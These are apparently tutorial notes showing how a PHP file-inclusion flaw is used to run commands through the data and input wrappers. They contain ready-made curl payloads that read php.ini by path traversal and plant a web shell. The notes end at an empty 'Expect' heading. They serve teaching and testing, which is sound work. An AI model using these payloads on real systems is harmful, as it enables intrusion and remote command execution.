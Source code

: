 ## Data

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code.

However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.

#### Checking PHP Configurations

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx


```shell-session
 curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` 

#### Remote Code Execution

```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```


Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

We may also use cURL for the same attack, as follows:

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

## Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data.

To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

## Expect
